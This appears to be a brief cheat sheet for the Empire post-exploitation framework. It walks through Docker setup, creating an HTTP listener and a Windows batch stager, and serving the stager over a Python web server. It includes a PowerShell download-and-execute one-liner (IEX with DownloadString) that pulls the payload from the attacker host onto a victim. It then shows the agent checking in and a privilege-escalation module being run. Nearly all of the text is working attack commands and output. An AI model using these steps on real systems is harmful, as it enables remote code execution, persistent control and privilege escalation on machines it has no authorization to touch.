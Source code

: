 #### 1. About

- URL: `https://github.com/EmpireProject/Empire`
- PowerShell and Python post-exploitation agent.


#### 2. Setup and run
```
# docker pull empireproject/empire
# docker run --name empire -v /tmp:/tmp -p 5000:5000 -d --rm -it empireproject/empire
# docker exec -it empire ./empire
```


#### 3. Example

1. Listener
```
(Empire) > listeners
(Empire: listeners) > uselistener http
(Empire: listeners/http) > set Host http://192.168.9.11:5000
(Empire: listeners/http) > execute
(Empire: listeners/http) > back
```
Note: IP address of host interface where Docker container runs


2. Create payload
```
(Empire: listeners) > usestager windows/launcher_bat
(Empire: stager/windows/launcher_bat) > set Listener http
(Empire: stager/windows/launcher_bat) > execute
```


3. Prepare and deliver payload
```
# grep -oE 'powershell .*' /tmp/launcher.bat > data && python -m SimpleHTTPServer 8888
C:\> echo IEX(New-Object Net.WebClient).DownloadString('http://192.168.9.11:8888/data') | powershell -noprofile -
```


4. Agent response
```
(Empire: stager/windows/launcher_bat) > [*] Sending POWERSHELL stager (stage 1) to ...
[*] New agent UPCLMZ1S checked in

(Empire: stager/windows/launcher_bat) > [+] Initial agent UPCLMZ1S from ... now active (Slack)
[*] Sending agent (stage 2) to UPCLMZ1S at ...

(Empire: stager/windows/launcher_bat) > agents
(Empire: stager/windows/launcher_bat) > interact UPCLMZ1S
(Empire: UPCLMZ1S) > usemodule privesc/powerup/allchecks
(Empire: powershell/privesc/powerup/allchecks) > run
```
